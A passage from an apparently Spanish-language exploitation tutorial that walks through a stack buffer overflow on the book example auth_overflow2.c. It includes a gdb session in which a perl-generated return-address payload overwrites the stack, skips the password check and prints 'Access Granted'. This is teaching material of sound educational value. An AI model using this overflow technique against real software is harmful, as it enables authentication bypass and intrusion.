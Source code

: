 Esta porción de código corresponde a:

```c
if(check_authentication(argv[1])) {
     printf("n-=-=-=-=-=-=-=-=-=-=-=-=-=-n");
      printf("      Acceso concedido.n");
       printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-n");
   } else {
      printf("nAcceso denegado.n");

```

Las instrucciones del tipo *mov DWORD PTR [esp], 0x&#8230;&#8230;* son los argumentos para la función *printf*, inmediatamente despues da cada una de estas instrucciones se llama a la función con *call 0x804831c </printf><printf>*. Las intrucciones que comienzan con una j son saltos condicionales (je = jump if equal), y jmp es incodicional, es decir, sigue la ejecución por la dirección indicada si o sí, sin evaluar ninguna condición. Observando un poco, nos damos cuenta que nos interesa sustituir la dirección de retorno para que se ejecute esta instrucción *0x080484bf </printf></main><main>: mov DWORD PTR [esp],0x80485fb*, que corresponde con el primer printf. Y así saltarnos la comprobación del if.

Para conseguir sustituir la dirección de retorno por la que nos interesa, vamos a desbordar el buffer con el valor de dicha dirección:

```bash
gdb -q auth_overflow2.c.binary
Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1".
(gdb) b 9
Breakpoint 1 at 0x8048421: file auth_overflow2.c, line 9.
(gdb) b 16
Breakpoint 2 at 0x804846f: file auth_overflow2.c, line 16.
(gdb) run $(perl -e 'print "xbfx84x04x08"'x8)
Starting program: /home/hkr/booksrc/auth_overflow2.c.binary $(perl -e
'print "xbfx84x04x08"'x8)

Breakpoint 1, check_authentication (
    password=0xbffff9f6
"�204�04b�204�04b�204�04b�204�04b�204�04b�204�04b�204�04b�204�04b")
at auth_overflow2.c:9
9               strcpy(password_buffer, password);
(gdb) x/16x $esp
0xbffff7c0:     0x00000000      0x08049744      0xbffff7d8      0x080482d9
0xbffff7d0:     0xb7f9f729      0xb7fd6ff4      0xbffff808      0x00000000
0xbffff7e0:     0xb7fd6ff4      0xbffff8a0      0xbffff808      0xb7fd6ff4
0xbffff7f0:     0xb7ff47b0      0x08048510      0xbffff808      (0x080484bb)
(gdb) c
Continuing.

Breakpoint 2, check_authentication (password=0xbffff900
"��������I���i���v���230�������")
    at auth_overflow2.c:16
16              return auth_flag;
(gdb) x/16x $esp
0xbffff7c0:     0xbffff7e0      0x080485dc      0xbffff7d8      0x080482d9
0xbffff7d0:     0xb7f9f729      0xb7fd6ff4      0xbffff808      0x00000000
0xbffff7e0:     0x080484bf      0x080484bf      0x080484bf      0x080484bf
0xbffff7f0:     0x080484bf      0x080484bf      0x080484bf      (0x080484bf)
(gdb) c
Continuing.

-=-=-=-=-=-=-=-=-=-=-=-=-=-
      Access Granted.
-=-=-=-=-=-=-=-=-=-=-=-=-=-

Program received signal SIGSEGV, Segmentation fault.
0xe8080485 in ?? ()
```

 [1]: http://www.amazon.es/gp/product/1593271441/ref=as_li_ss_tl?ie=UTF8&tag;=elbaudelpro-21&linkCode;=as2&camp;=3626&creative;=24822&creativeASIN;=1593271441